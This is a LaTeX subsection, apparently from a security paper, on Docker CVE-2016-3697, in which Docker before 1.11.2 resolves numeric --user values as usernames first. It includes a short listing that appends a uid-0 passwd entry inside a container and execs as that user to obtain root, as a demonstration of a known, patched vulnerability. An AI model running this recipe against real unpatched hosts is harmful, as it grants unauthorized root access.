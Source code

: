 \subsection{CVE--2016--3697}

Docker before 1.11.2 did try to interpret values passed to the \lstinline{--user} argument as a username before trying them as a user id\cite{CVE-2016-3697-Github}. This allows malicious images be created with users that grant \lstinline{root} rights when used.
\begin{lstlisting}
(host)$ docker run --rm -it --name=test ubuntu:latest /bin/bash
(cont)# echo '31337:x:0:0:root:/root:/bin/bash' >> /etc/passwd
(host)$ sudo docker exec -it --user 31337 test /bin/bash
(cont)# id
uid=0(root) gid=0(root) groups=0(root)
\end{lstlisting}

